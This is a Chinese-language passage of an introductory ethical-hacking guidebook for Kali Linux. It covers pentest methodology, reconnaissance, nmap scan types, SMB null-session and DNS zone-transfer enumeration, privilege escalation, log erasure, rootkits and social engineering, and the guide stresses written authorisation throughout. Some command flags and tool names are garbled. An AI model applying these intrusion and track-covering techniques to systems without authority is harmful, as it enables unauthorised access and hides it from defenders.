# Kali Linux 道德破解与渗透测试步步指南

认证：`CCNP`、`CCIP`、`CCSP`、`CCSA`、`CISSP`、`LPI`、`Scrum`、`IIUC`、`COBIT`

## 关于作者

-   `Rootkits`

## 引言

本书是想要成为道德黑客的人的完整指南。在书中，你将学习什么是道德黑客及其流程。前几章介绍了成为道德黑客的定义、概念和过程，后半部分将详细介绍如何使用某些工具并渗透系统。

阅读本书后，你应该能够使用这些工具进行一些测试，甚至参与渗透项目。你只需要记住：

在每个章节中，我们都提供了实现渗透目标所使用的命令。你需要遵循这些命令并更改参数或名称以适应你的环境。

## 关于作者

作者 `Rassoul Ghaznavi-zadeh` 自 1999 年以来一直是 IT 安全工程师。他从 `Cisco` 工程师起步，并围绕 `Cisco`、`Checkpoint`、`Juniper` 等技术以及 `ISO 27001`、`PCI` 等流程开发了其网络和安全知识。

他在线 `Linux` 系统、服务以及其可用工具方面也有深厚的背景。`Rassoul` 通过测试、审计和提供建议，帮助许多企业组织建立了安全可靠的环境。

`Rassoul` 拥有多个网络、安全和企业 IT 架构的国际认证。

## 作者寄语

在行业工作多年后，我决定写一本书与他人分享我的知识和经验。希望你发现这本书很有用，如果我能尽一份之力让技术行业变得更安全、更可靠。我尝试避免长段落，并将本书结构得像演示一样，这样你就不会感到无聊。

对于购买这本书的人，我可以在 `LinkedIn` 上进行后续交流。将我加入你的网络并提问你可能任何问题，我很乐意提供帮助。

我想把这本书送给我的妻子和女儿，她们一直陪伴着我，并抽出时间帮助我写这本书。

## 警告

你在书中学到的技术并非用于在任何生产环境中出于滥用之目的。在没有获得任何组织管理团队正式许可的情况下，使用这些技术是非法的。

其主要目的和目标是在与客户签订特定协议的情况下，作为一名道德黑客（`Ethical hacker`），通过这些测试来维护技术环境的安全。

在没有书面授权的情况下请勿使用这些技术。这是违法的，并且可能会让你陷入麻烦。

## 什么是道德黑客？

道德黑客是一种发现网络和系统漏洞并建议如何保护它们的技术。你在书中学到的技术纯粹是白帽攻击技术，旨在发现网络和系统中的漏洞和风险。

在没有获得管理团队正式批准的情况下，不得在任何生产网络上使用这些技术。未经批准而使用这些技术可能是非法的，并对他人的财产造成严重损害。

## 道德黑客的类型

道德黑客有多种类型，通常可以分类为以下几类：

### 白盒（White box）

当我们对网络以及网络上的系统完全了解时。攻击者可以是老员工、亲属、供应商或承包商，他们对目标公司使用的基础设施、软件和硬件有全面的理解。

### 黑盒（Black box）

当我们对基础设施一无所知，并在没有任何信息的情况下尝试渗透时。在这种类型的攻击中，通常攻击的第一步是收集足够关于公司、基础设施和系统的信息。一旦获取了所有所需信息，下一步就是寻找漏洞并尝试利用它们。

### 漏洞评估（Vulnerability assessment）

这纯粹是对网络上的漏洞进行评估和分析。这通常是一项安全的工作，不会对运行产生任何影响。大多数情况下，此类别的技术是非法的，但在执行之前告知相关人员总是安全的，因为可能会出现一些复杂情况。

### 渗透测试（Penetration testing）

这是一种尝试获取系统或设备控制权的攻击类型。使用此类技术存在对设备或网络运行产生中断的潜在风险。在没有获得目标公司正式批准和承诺的情况下使用这些技术是非法的。

## 道德黑客的责任是什么？

作为一名道德黑客，你对如何使用你的知识和技术有明确的责任。理解对道德黑客的期望是什么，以及在评估客户组织的安全性时应该考虑什么，也非常重要。

以下是你作为道德黑客必须考虑的几件重要事项：

- 必须仅将你的知识和工具用于合法目的
- 仅为了识别安全问题并以防御目标进行攻击
- 在开始任何测试之前始终寻求管理层的批准
- 创建具有精确参数和目标的测试计划，并获得管理对该计划的批准
- 不要忘记，你的工作是帮助加强网络，仅此而已！

## 客户的期望是什么？

在开始任何工作之前，理解客户的期望非常重要。由于这项工作的性质（道德黑客）具有高风险并需要大量的注意力；如果你对他们的需求和期望没有清晰的理解，最终结果可能不是他们想要的，你的时间和精力将白白。如果你不遵守规则并满足客户的期望，这可能导致一些法律影响。

以下是你应该注意的一些重要事项：

- 你应该与客户合作定义目标和期望
- 不要通过你可能发现的问题让他们感到惊奇或尴尬
- 始终保持结果和信息的机密
- 公司通常拥有结果数据，而不是你
- 客户期望对问题和修复进行完全披露

## 黑客所需的技能有哪些？

要成为一名道德黑客，你应该对对一系列设备和系统有广泛的知识。理想情况下，你应该拥有 IT 行业的多年经验，并熟悉不同的硬件、软件和网络技术。

成为道德黑客所需的某些重要技能如下：

- 应该已经是其他领域（边界安全等）的安全专家
- 应该已经具有网络或系统管理员的经验
- 具有各种操作系统的经验，如 `Windows`、`Linux`、`Unix` 等
- 关于 `TCP/IP` 的广泛知识 - 端口、协议、层次
- 关于安全、漏洞以及如何纠正它们的常识
- 必须熟悉黑客工具和技术（我们将在书中涵盖这些内容）

## 你需要了解的相关法律

我们不会在书中讨论这些法律，但如果你在网上查找这些法律并理解其要求和基础总是一个好主意。每个国家可能有其特定的特定法律，可能与其他国家不同。美国有一些重要的法律是：

### Title 18 USC 1029

与接入设备相关的欺诈及相关活动

### Title 18 USC 1030

与计算机相关的欺诈及相关活动

### Title 18 USC 3121-27

对拨号记录器和追踪设备使用的通用禁止；例外

### Title 18 USC 2510-22

线路和电子通信截获以及口头通信截获

### 其他法规

### 查看法律的良好参考

- http://www.law.cornell.edu/uscode/text

## 如何准备渗透测试

一旦你想开始一个渗透项目，就有许多事情需要考虑。记住，在不遵循正确步骤、不获得批准并与客户达成协议的情况下，使用这些技术是非法的，也是违背法律的。

在开始之前需要考虑的重要事项：

- 从客户处获得所有测试的签署批准
- 你需要签署保密协议（`NDA`）
- 获取相关方（`ISP`）的批准
- 组建团队和工具并准备好测试
- 定义目标（`DoS`、渗透等）
- 设定基本规则（与客户和团队的交互规则）
- 设定时间表（非工作时间、周末？）
- 通知相关方（系统管理员、安全部门、法务部门、执法部门）

## 攻击类型

可以在网络或系统上进行许多种不同的攻击。主要类别解释如下：

### 全渗透

获取系统的完全控制权并访问资源和数据。这是一项非常复杂和困难的任务，需要花长时间研究漏洞和访问系统的方法。

### 拒绝服务（Denial of Service）

中断系统的运行并影响用户。这通常是一种更容易攻击类型，花费较少的时间精力即可实现；但在大型组织中可能是一个大问题。

### 特定信息

窃取或披露文档或信息。这可能是访问文档或渗透数据库，通常攻击者正在寻找某些特定信息，而不对破坏任何系统感兴趣。

### 社会工程学（Social Engineering）

操纵人类交出机密的艺术。这可能是最简单的攻击方式，不需要任何技术知识。攻击者通常会利用用户、管理员或员工从他们那里获取信息并利用这些信息渗透系统。

## 攻击方法论概述

计划和实施渗透项目需要遵循许多步骤。我们将在书后的部分详细解释每一步；然而，步骤摘要可以在下方找到。

### 正式方法论

一个良好的方法论为测试和程序提供了结构化的框架。以下是对实施你的方法论有用的笔记：

- 确保你没有忽略攻击途径和可能的漏洞
- 提供全面的测试计划。你可以使用以下标准：
  - `OSSTMM` - 开源安全测试方法手册
    - 一种广泛使用的、经过同行评审的执行安全测试的方法
  - `NIST SP 800-42`
    - 信息安全测试和评估的技术指南
  - `TRAWG`
    - `TRAWG` 代表威胁和风险评估工作指南
  - `OCTAVE`
    - 运行关键威胁、资产和漏洞评估

### 侦察（Reconnaissance）

这是渗透测试的第一步。重点是尽可能多地收集目标公司、网络、基础设施或人员的信息。收集信息有两种不同的类型；主动（电话、交谈、访问等）和被动（寻找信息（在网站、招聘广告等）

### 扫描 (Scanning)

在这一步骤中，对网络进行扫描以确定哪些主机是活跃的以及它们的功能。有多种类型的扫描和工具可用。最流行的是 `Nmap` 和 `Supercan`。

扫描很容易被入侵检测系统（`IDS`）检测到，尽管可以通过特定的扫描方式来避免这种情况。

### 服务枚举（指纹识别）（Service Enumeration / Fingerprinting）

此步骤在确定哪些主机在线后遵循扫描步骤。将使用工具发现哪些主机正在运行以确定漏洞。指纹识别工具通常与扫描器结合，我们可以同时获得两种报告。

### 漏洞评估 (Vulnerability Assessment)

此步骤用于确定工具上的应用程序或服务存在哪些漏洞。在此步骤中，利用已知的漏洞数据库，并将目标设备的响应与数据库进行对比以寻找匹配项。目标涵盖了所有流行的操作系统和应用程序。

`Nus` 是该类别中最流行的评估工具，它是开源的并提供免费版本。

### 漏洞利用 (Vulnerability Exploitation)

在此阶段，将利用已知漏洞或开发新漏洞来利用之前步骤中发现的漏洞。利用漏洞渗透并获取系统的访问。

### 渗透与访问 (Penetration and Access)

这是实际发生攻击的阶段。之前的所有阶段都只是规划，我们将在此步骤中尝试控制目标。根据之前步骤识别出的被利用漏洞对系统进行渗透。

尝试并测试对各个级别系统的访问。`Metasploit` 框架是该类别中流行的工具，将在本书后后部分进行介绍。

### 权限提升与控制主机 (Privilege Escalation and Owning the Box)

此阶段的目标是获取管理员权限或访问权限信息。黑客可能从访客级或普通用户身份开始，利用漏洞提高权限级别。记住：控制主机 = 完全控制权。

### 规避防御与擦除足迹 (Evading Defences and Erasing Tracks)

黑客必须规避 `IDS`、`FW`（防火墙）、`IPS` 等防御以渗透并访问系统。他们必须避免被发现，否则渗透将是短暂的。记住，大多数中大型组织都设有检测机制。擦除足迹、删除日志文件、重置权限、使用 `rootkit` 在系统上隐藏黑客工具都是该类别中的常见步骤。

### 维持并扩大访问 (Maintaining and Expanding Access)

一旦渗透完成，必须维持并扩大访问。`Rootkit` 通常用于保持访问、隐藏运行的进程和工具，以及后门账户。访问可以扩大以增加目标并进一步渗透网络。

# 第 1 步 - 侦察 (Step 1 - Reconnaissance)

### 被动侦察 (Passive Reconnaissance)

- 此步骤用于在不使用任何入侵手段的情况下收集有关公司、网络或其他目标的信息。
- 很难被目标公司检测或防御。
- 大多数此类信息可以在网页、报纸、广告、手册等上公开获取。
- 你可以使用如公司网站、证券委员会（`Exchange commission`）、美国商业改进局、文献、招聘网站公告（例如，如果需要 `Nortel` 技能，你就会知道他们有 `Nortel` 设备）、合作伙伴网站等资源。
- 信息可以包括公司人员姓名、主要位置（数据中心）地址、合作伙伴网络和连接、使用的系统类型（`FW`、`IDS` 等）、IP 地址空间、域名等。
- 使用 `Whois` 和其他工具收集信息
  - 管理员姓名、IP 地址空间、位置、电子邮件地址、电话号码等。
- 其他工具包括 `Sam Spade`，也有基于 Web 的工具可用
- 一个流行的工具是 `Kali Linux` 上的 `Maltego`，将在本书后后部分介绍

### 主动侦察 (Active Reconnaissance)

- 在此阶段，黑客使用更具入侵性的方法收集信息，并像普通用户一样主动接触目标站点和网络。
- 它不涉及攻击系统。
- 可能涉及个人接触或实地访问。
- 某些工具和方法：
  - 标志抓取 (`Banner Grabbing`) - 通过 `Telnet`/`SSH` 连接设备并读取 banner 以识别其身份。
  - 邮件退回 (`Mail Bouncing`) - 向错误的邮件地址发送邮件以检查退信信息并识别邮件服务器。
  - `DNS` 区域传输 (`DNS Zone Transfers`) - 获取所有可用服务器和主机列表。
  - 查看公司的公共网站源码和目录结构 - 以识别他们可能使用的 `CMS`（内容管理系统）类型。
  - 社会工程 (`Social Engineering`) - 例如，发现系统管理员下班后去哪里，和他在一起社交、交朋友并从他那里套取信息！
  - 窥视 (`Shoulderer Surfing`) - 站在某人身后，观察并收集密码、代码等信息。
  - 翻垃圾桶 (`Dumpster Diving`) - 这主要是由窃取信息的当地人员完成的。
  - 尾随/实地访问 (`Piggybacking/Site Visits`) - 例如，跟随他人、访问站点并绕过安全检查。
  - 汇总归纳
    - 使用侦察技术对组织的结构和网络进行指纹识别。
    - 收集关于目标组织的公开或易获取信息。
    - 使用这些信息确定弱点和组织边界。
    - 示例包括姓名、地址、职位、电话号码或公司人员。
    - IP 地址范围和域名结构（例如使用 `BGP` 或 `Lookup`）。
    - 基础设施布局和使用的软件。
    - 记录此步骤中的所有发现并将它们整合。
    - 此步骤获得的信息将作为后续步骤的起点。

# 第 2 步 - 扫描 (Step 2 - Scanning)

### 扫描活跃主机

- 此步骤是在寻找网络上的活跃主机，稍后可能对它们的服务进行枚举。
- 它具有入侵性，并可能被 `IDS` 检测。
- 在某些地方可能是非法的，需要预先批准。在生产环境中执行此操作之前你需要检查。
- 通常由系统管理员识别并记录在日志服务器上。存在减少扫描可见性的方法 - 例如延迟扫描或使用 `FIN`、`Null` 或 `Xmas` 扫描。
- 使用名为 `Supercan`、`nmap` 的工具。

### TCP 连接

- `TCP` 和 `UDP` 是网络中最常见的。你需要了解 `TCP` 的工作原理才能使用。
- `TCP` 包含 6 个标志位：初始（`syn`）、确认（`ack`）、完成（`fin`）、紧急（`urg`）、推送（`psh`）或重置（`rst`）。
- `TCP` 握手包括以下步骤：
  - `Syn`（从源到目的）-> `Syn-ack`（从目的到源）-> `Ack`（从源到目的）
- 攻击使用非标准的标志位组合（畸形数据包）来诱导响应。
- `SYN` 洪水 (`Syn flood`) - 是一种拒绝服务攻击，源计算机仅发送 `syn` 包。会导致受害者机器产生大量的会话并过载。

### 扫描类型

- 全连接扫描 (`Full scan`) - 完成握手的所有三个部分。这是最可靠的扫描，但噪音大且容易被检测。
- 半开放扫描 (`Half open / syn scan`) - 仅使用握手的第一个部分（`syn`）；不发送第三部分（`ack`）。这也可以被 `IDS` 系统检测。
- 隐身扫描 (`Stealth Scan`) - 改变扫描时间和频率以避免被检测。这不是全连接扫描。
- `Xmas` 扫描 (`Xmas Scan`) - 设置了 `fin`、`urg` 和 `push` 标志的畸形包；用于绕过防火墙。
- `Ack` 扫描 (`Ack Scan`) - 仅发送 `ack` 包；由于没有握手，接收端不知道如何响应；会导致开启端口返回重置。
- `FIN` 扫描 (`FIN Scan`) - 发送带有 `fin` 标志的数据；这通常可以绕过 `IDS`。
- 空扫描 (`Null Scan`) - 发送未设置任何标志的数据；在大多数情况下也可以绕过 `IDS`。

### UDP 扫描

- 与 `TCP` 不同，`UDP` 协议没有大量的控制和握手。`UDP` 流的过程要简单得多。
- 源设备发送 `UDP` 请求，目标做出响应。
- `UDP` 扫描仅扫描 `UDP` 包。
- 它不如 `TCP` 扫描可靠。
- 价值有限，因为 `UDP` 或 `ICMP` 可能被防火墙拦截。

### ICMP 扫描

- `ICMP` 是最常用的协议。
- `Ping` 扫描是最常见的扫描方式。
- 活跃主机可能会响应 `ICMP` 类型 0 或 8。
- 大多数扫描器都包含 `ping` 扫描。
- 通常会触发 `IDS` 警报并是可以被检测的。

## 步骤 3 - 端口与服务枚举

### 识别端口与服务

- 此步骤将在扫描之后进行，用于确定存活主机
- 识别服务和开放端口可以判断功能模块正在执行的操作以及运行的操作系统
- 在此步骤之后可以开始对这些服务的利用
- 运行端口扫描以确定计算机正在监听哪些端口
- 经常使用同一工具同时运行 `Ping`/端口/服务扫描

### 操作系统指纹

- 此步骤用于确定目标系统运行的是什么操作系统，然后利用该操作系统相关的漏洞
- 其工作原理基于某些操作系统实现 `TCP/IP` 栈的方式不同，对某些扫描的响应可以确定操作系统类型
- 某些操作系统在特定端口运行特定服务，这是识别操作系统的另一种方法
  - 示例：137、138、139、445 表示 `Windows 2000` 或更高版本

### 扫描器

- `Foundstone SuperScan` - 基于 `Windows` 的应用程序，现由 `McAfee` 所有


# Nmap

- Nmap 是最流行的基于 *nix 的扫描器。它也有 Windows 版本。
- 提供全扫描、半扫描、隐蔽扫描和 UDP 扫描

## 步骤 4 - 数据枚举

### 什么是枚举

- 获取有关系统、网络和主机的详细特定信息
- 利用未定义为漏洞的各种技术
- 一种非侵入性的获取价值信息的方法
- 信息包括：
  - SNMP 团体、MIB 特定信息
  - 用户名和组
  - 广告服务（如主浏览器 Master Browser）

### SNMP 枚举

- 大多数设备的默认团体字符串为 `public`
- `public` 字符串可能具有各种权限来获取信息
- MIB 包含可以获取的大量特定信息
- Kali Linux 可用于许多 SNMP 测试

### DNS 区域传输

- DNS 服务是任何组织的核心名称解析服务
- DNS 服务器使用查询和区域传输来同步它们之间的记录
- Linux BIND 和 Microsoft DNS 是常见的 DNS 服务器
- 区域由 DNS 服务器拥有，如果它们允许区域传输，你就可以获得完整的 DNS 记录列表，从而识别出网络上的所有主机
- `nslookup` 提供了简单的名称解析接口
  - 可用于即时区域传输
  - 区域传输可以轻松地描绘整个网络
  - 示例：以下内容返回所有 DNS 记录（需要被主 DNS 服务器允许）

```
nslookup
set type=any
set type=ALL
ls -d "yourdomain.com"
```

### Windows 空会话 (Null Sessions)

- Microsoft Windows 使用 SMB（服务器消息块）进行数据共享和服务广告
- 备选的 CIFS 可作为非 Windows 替代方案
- 使用 `null`（空）用户账户建立空会话
- 空会话可用于枚举系统信息
- 使用空账户连接 Windows 机器的示例：

```
net use \\192.168.66.132\$ /user:null
net view
```

### NETBIOS 枚举

- NetBIOS 在有或无 WINS 服务器的情况下运行
- 它的运行主要基于广播
- 它依赖于广告
- 广告包括服务、角色、驱动器
- `Netstat` 可用于枚举信息
- `NBTS` 是另一个命令行工具
- 示例：
  - （在 Kali Linux 上）
    - `nbtscan 192.168.1.130`
    - `/smbgetserverinfo -I 192.168.1.130`
    - `/smbdumpers -I 192.168.1.130 -v`
  - （在 Windows 上）
    - `nbtstat -a 192.168.1.130`

### 活动目录提取

- 使用 LDAP 协议
- `Ldp.exe` 是一个简单的 LDAP 客户端
- 使用 Guest 或没有任何权限进行身份验证

## 步骤 5 - 漏洞评估

### 操作系统漏洞

- 注意记住，所有的操作系统都有漏洞（而不只是 Windows！）
- 黑客网站上可能会列出利用程序，可以被查看和使用
- 操作系统漏洞用于渗透/获取系统的访问权限
- 漏洞可导致 DoS 攻击
- 操作系统漏洞包括：
  - 缓冲区溢出
  - TCP 栈漏洞
  - 默认权限设置
  - 默认安全设置
  - 大多数漏洞存在于默认服务和应用程序中
    - Rlogin
    - 远程过程调用 (RPC)
    - 服务器消息块 (SMB)
    - Windows 管理规范 (WMI)
    - 本地安全权威子系统服务 (LSASS)
    - X-Server
    - SAMBA

### 漏洞是软件中的安全缺陷

- 通常由编码不当引起
- 利用程序是利用漏洞破坏系统安全性的方法
- 有多种使用利用程序获取访问权限的方法和手段
- 可以扫描器发现漏洞（Nessus, Nikto, OpenVAS）
- 使用安全网站识别漏洞（Bugtraq, CVE 网站）
- 使用供应商的安全报告

### 漏洞/利用程序包括：

- 操作系统漏洞
- Web 服务器/应用程序漏洞
- 数据库漏洞
- TCP 栈漏洞
- 对病毒/木马/恶意软件的敏感性

### 多功能利用工具包括：

- Nessus
- Metasploit Framework

### Web 服务器漏洞

- 由于连接到互联网，风险更高
- 可能受到外部防火墙/DMZ 的保护
- 由于安全性较差，通常更容易利用
- Web 服务器漏洞的常见示例
  - 存储在网站代码中的密码
  - 遍历目录
  - 执行脚本或程序的能力
  - 绕过 URL 检查并返回命令提示符的能力
  - 未修补和配置错误的服务器
- 发现漏洞后可以执行的操作：
  - Root 权限
  - 网站篡改
  - 拒绝服务
  - 服务器数据的窃取或更改

### 数据库漏洞

- 数据库漏洞示例包括：
  - 权限和角色的配置错误
  - 构造错误的数据库对象（表、DML 语句）
  - SQL 注入
  - 未更改的默认密码
  - 对其服务的应用程序漏洞
  - 应用程序编码和安全性

### TCP 栈漏洞

- 所有操作系统和应用程序都有 TCP 漏洞
- Common TCP 漏洞和攻击：
  - TCP 序列预测
  - TCP 窗口大小溢出
  - Syn 攻击
  - 网关重定向
  - DNS 污染
  - 高流量攻击（死亡之 Ping、Smurf、Teardrop）

### 应用程序漏洞

- 应用程序由于编码和测试实践不佳通常存在漏洞
- 每个应用程序都会提供独特的攻击方法
- 示例包括：
  - 缓冲区溢出
  - 弱身份验证机制
  - 数据验证不当
  - 编写错误

### 漏洞评估

- Nessus 是常用的开源软件
- 一些有用的资源：
  - OVAL - 标准化评估
  - FrSIRT - 法国安全响应小组
  - US-CERT - 美国安全响应小组
  - AusCERT - 澳大利亚安全响应小组
  - Web 利用程序发布

## 步骤 6 - 渗透、访问与破解

### 实际攻击开始

- 在此步骤的目标是获取系统最高级别的权限或权利
- 使用未发现的技术和方法
- 实现渗透的利用程序包括：
  - 缓冲区溢出
  - 栈利用
  - Web 漏洞
  - 允许未经验证访问的服务/程序
  - SQL 注入
  - 应用程序错误处理
  - 直接遍历
  - 畸形包

### 绕过访问控制

- 常见的访问控制类型有哪些？
  - 用户名/密码组合
  - 令牌
  - 智能卡
  - 生物识别访问方法

### 密码破解是访问系统的常见手段

- 社会工程学可欺骗人们提供访问信息
- 嗅探器直接从线路中获取密码
- 会话劫持可以实现伪装
- 应用程序/服务账户
- 组成员身份
- 权限配置错误

### 密码破解

- 用户名/密码是最不安全的身份验证方法
- 用户名很容易被发现（命名规范、邮箱地址等）
- 密码通常必须破解

### 破解密码有几种方法：

- 暴力破解攻击
- 字典攻击
- 混合攻击
- 嗅探网线 - 明文或加密的哈希值
- [www.oxid.it](http://www.oxid.it) 上的一些优秀应用程序

### 社会工程学

- 社会工程学是一门通过操纵他人从他们那里获取信息或说服他们按照你的意愿行事的艺术
- 可以在现场、电话、电子邮件或聊天中发生
- 这是一种非常低技术含量的方法
- 通常用于获取用户 ID、密码、域名、服务器地址等信息
- 可被人员用于执行操作（解锁门、允许未经授权的人员物理访问、重置密码等）
- 方法包括：
  - 伪装成重要用户并施加压力获取信息
  - 伪装成技术支持/帮助台代表
  - 假装成获得第三方（经理、老板等）的授权
  - 翻垃圾桶：从未妥善处理（丢在垃圾桶）的敏感信息中获取信息
  - 偷窥：观察他人登录系统并获取详情

### 会话劫持

- 这是一种成为中间人并接管会话的技术
- 它涉及对计算机之间的会话进行拦截、监控和记录
- 它用于拦截登录凭据
- 用于接管服务器与客户端之间的会话，使双方互相伪装成对方
- 数据可以被拦截、修改并重新传输到目标主机

### 权限提升

- 访问系统通常从普通用户或访客身份开始，需要提升权限才能完成攻击
- 示例包括通过缓冲区/栈溢出来实现管理员权限访问
- 使用社会工程学来利用管理员权限（钓鱼、电子邮件、给人打电话告诉他们你来自“帮助台”并索要信息）
- 可能是为了使用键盘记录器获取管理员账户和密码
- 可能是为了从基于 Linux 的密码更改盘启动，并将管理员密码置为空或所需的密码（需要对设备进行物理访问）

### 维持和扩大访问权限

- 一旦获得，就必须维持
- 必须防止被发现或丢失访问权限
- 维持访问权限有几种方法：
  - Rootkit、操作系统内核漏洞、缓存凭据、防止日志记录等
  - 安装木马，通过后门方法保护或继续访问
  - 创建新账户或提升其他账户的权限
  - 修改共享和文件的权限
  - 启用空会话（Windows 机器）

### 扩大访问权限

- 扩大访问权限允许其他主机从已攻破的主机被入侵
- 将黑客工具传输到被黑的主机
- 使用主机上的内置命令进一步对网络上的其他主机进行取证
- 从已攻破的主机获取其他系统的受保护的密码
- 通过查看 TCP/IP 信息获取其他主机的域服务器、DNS 服务器、DHCP 服务器和其他有用服务
- 从被黑的主机枚举整个域

### 系统攻破

- 当你的初始目标得 `true` 时，即实现了系统攻破
  - Root 权限
  - 数据访问/窃取

### 拒绝服务 (DoS)

- Rootkit/文件替换
- 文件上传
- 结果将留下一扇大门，可能进一步访问其他设备

## 步骤 7 - 规避防御和擦除痕迹

### 你的操作记录在哪里？

- 日志文件
- 文件访问时间
- Windows 注册表项
- 留下的黑客工具
- 操作系统性能统计数据
- IDS（入侵检测系统）
- 代理服务器
- 防火墙

### 删除文件和其他证据

- 有许多地方你需要查看，以确保你不会留下任何证据
- Windows 安全事件日志、网络日志、防火墙和 IDS
- 应用日志
- 日志文件通常需要管理员权限，并且会记录删除操作本身
- 删除用于黑入机器的工具痕迹
- 尽可能避免替换关键系统文件
- 某些文件/日志可能需要随着重启和分页文件自动删除

### SQL 注入

- 这是一种针对公司高价值数据库资产的攻击 - 如个人数据、财务数据等
- 依赖于应用程序接口与数据库（通常是 MSSQL）交互时脆弱的数据验证和语句检查
- 利用修改或追加发送到数据库的 SQL 语句的能力
- 经常可以绕过应用程序设置的身份验证或限制
- 最常见的是启用了后端 SQL ANSI92 数据库的 Web 服务器
- 只有数据验证检查和查询限制才能防止 SQL 注入
- 某些数据库配置可以帮助，但应用程序是弱点

### Rootkits（根内核程序工具包）

- Rootkits 是替换操作系统可执行文件的恶意程序
- 它们用于维护和隐藏非法访问
- 通常需要 root 权限才能安装
- 互联网上有大量的 Linux Rootkits
- 现有的可用的检测方法较少
- 基于基线的文件的 MD5sum 是一种方法，但由于系统上频繁的合法更改，在管理上非常困难
- 消除 Rootkits 非常困难
- 好的办法是用已知的良好软件重新构建系统
- 缺点是重新构建系统会消除调查/诉讼中可能需要的 Rootkit 证据

### 欺骗（Spoofing）

- 这种技术用于隐藏流量源者的身份或假装受信实体身份
- IP 地址、MAC 地址、电子邮件经常被伪造
- 防止攻击者被轻易追踪到
- 通常依赖于 TCP/IP 本身或应用程序的漏洞
- 实施的某些机制可以防止欺骗（例如，阻止内部地址空间从外部接口进入防火墙）
- 欺骗方法和工具取决于平台和架构

### 拒绝服务 (DoS) 攻击

- 这些类型的攻击用于防止系统的合法用户使用它
- 如果渗透尝试失败，这可能成为攻击者的首要目标
- 实现它不需要大量的技能或经验
- 存在许多方法/级别的 DoS 攻击：
  - TCP 冲突：死亡之 Ping（Ping of Death）、窗口大小溢出、Smurf 攻击、滴水（Teardrop）攻击
  - 用户访问：故意将用户锁定在服务之外
  - 停止应用程序依赖的服务


# 大规模 DoS 攻击

- 大规模 DoS 攻击使用多个主机
- 被称为分布式拒绝服务攻击 (DoS)
- 使用不受防备/不安全的主机（僵尸）对目标发动多系统攻击

# Web 攻击

- 针对网站或服务器的攻击是最流行的攻击
- 由于目标靠近互联网，这些攻击更容易实现
- 不安全的编码和未能锁定服务器使得它们成为容易受攻击的目标
- 大多数服务器位于防火墙后，但由于需要允许流量通过
- 第一步是枚举目标上的服务/应用程序，确定运行着什么 Web 软件
- 尝试针对已识别的 Web 服务器（IIS、Apache 等）使用已知漏洞
- 使用可以实现网站特定目标（DoS）、网站篡改或修改的漏洞利用程序（Exploits）
- 可能还可以通过攻击拦截/修改数据
- Web 服务器攻击可能导致对网络更深层次的渗透（后端数据库服务器等）

## 流行的攻击包括

- 跨站脚本攻击 (XSS)
- IIS DDL 漏洞
- 目录遍历
- Unicode 攻击

# 流行的攻击工具

## Nmap

- 它是最流行的多功能工具
- 同时提供 Windows 和 Linux 版本，Linux 命令行版本更好
- 充当 ping、端口、服务扫描器 - 可以识别操作系统
- 在攻击初始阶段寻找主机并枚举其服务非常有用
- 命令简单易用，通过一系列开关决定目标扫描的类型

### 示例

```
nmap -S 192.168.66.132 >> syn.txt          # TCP syn 扫描，快速且安静
nmap -T 192.168.66.132 >> syn.txt          # TCP 扫描 - 可以被 IDS 检测到
nmap -sU 192.168.66.132 >> udp.txt         # UDP 扫描
nmap -sM 192.168.66.132 >> bsd.txt         # 在 BSD 操作系统上的 TCP 栈扫描
nmap -sA 192.168.66.17 >> ack.txt          # Ack 扫描以枚举防火墙规则集
nmap -sN 192.168.66.1 >> linux.txt         # Linux 空包扫描，如果数据包不包含 ack、syn ack，如果关闭则返回 null，无响应则为开启
nmap -sF 192.168.66.1 >> linux.txt         # Fin 扫描 - Fin 标志开启
nmap -sX 192.168.66.1 >> linux.txt         # Xmas 扫描
nmap -scanflags URG 192.168.66.1 >> urg.txt
nmap -scanflags URGST 192.168.66.1 >> linux.txt
```

## Superscan

- 这是一个基于 Windows 的工具，功能与 nmap 几乎相同
- 由 Foundation Inc 开发
- 现在归 McAfee 所有
- 具有易于使用的 GUI
- 具有其他功能，包括网络查找、whois 等

## Nessus

- 最流行的网络漏洞扫描器
- 开源，并提供商业版本
- Web 管理界面
- 使用针对所有操作系统和应用程序的当前漏洞模块化数据库
- 数据库称为插件 (Plugins)
- 存在数百个插件，并每天更新以包含最新的漏洞
- 需要较高水平的知识才能有效使用工具
- 有自己的脚本语言 (NASL)，用于自定义编写漏洞扫描

## Kali Linux

- Kali Linux 是一种基于 Debian 的 Linux 发行版，专为数字取证和渗透测试设计。它由 Offensive Security Ltd 维护和资助。它是由 Offensive Security 的 Mati Aharoni 和 Devon Kearns 通过重写他们之前的取证 Linux 发行版 BackTrack 开发的。
- 我们将在书中后面向您展示如何使用 Kali 的一些功能和工具。

# 渗透认证

- 认证黑客 (CEH) 考试
- 认证渗透测试专家考试
- OSSTMM 专业安全员

# 使用 Kali Linux 进行渗透测试


# 渗透测试与数字取证工具包

Kali Linux 是最好的渗透测试工具之一，包含了：

- 漏洞评估
- 信息收集
- 取证
- 漏洞利用
- 权限提升
- 无线工具
- 以及许多其他

# Kali Linux 的安装和使用

使用 Kali Linux 有多种方法。无论你选择安装在本地磁盘还是使用现场发行版（live distributions），都有相应的选项。

## Live CD

你可以从可启动的 CD/DVD 加载 Kali Linux，而无需任何安装。这将加载 Kali 的现场版本，并具有所有功能。

## Live USB

你可以将 Kali Linux 安装在 USB 磁盘上并使用它来加载 Kali。当你想要一个便携版本并随带到任何地方时，这将非常方便。

## 安装到磁盘

这是 Kali Linux 的正常且基本的安装，与 Linux 发行版的安装非常相似。你需要按照提示完成安装。我们将在书的后部分解释这一点。

# 在虚拟机上安装

安装完成后，您需要设置 IP 地址和基本配置，如 SSH、网关、DNS 等。

始终建议使用以下命令更新环境，以便安装所有最新的软件和工具。

第一个命令是 `apt-get update`，它将更新数据库并让操作系统为下一步做好准备。

第二步是运行 `apt-get upgrade` 命令，它将对 Kali 上可用的所有软件包和软件进行升级。此过程可能需要一些时间。

完整的安装步骤指南，请参考本书的最后一个章节。

# 无线渗透


无线网络是您组织基础设施边界的延伸，应该经过彻底测试。不安全的无线网络会使您的组织向外部世界开放，并带来安全风险。员工在基础设施上安装的未遵循组织安全指南的违规访问点也可能被用于破坏您的组织。

在接下来的几个章节中，我们将向您展示如何对无线网络进行渗透测试，以及绕过无线设备可用安全措施有多简单。首先，我们从为 Kali 配置无线适配器开始。

# 无线传输功率调整

当你开始进行无线渗透项目时，需要完成的第一步是根据国家和环境调整你的无线接口配置。不同国家有不同的传输功率级别和代码。以下是在如何在美国调整你的无线网卡设置的示例。我们将在网卡上配置以下参数：

- TX 功率级别（以 dBm 为单位设置）
- 配置国家代码
- 配置级别

我们将用于更改无线配置的命令是 `iw` 和 `iwconfig`。

```
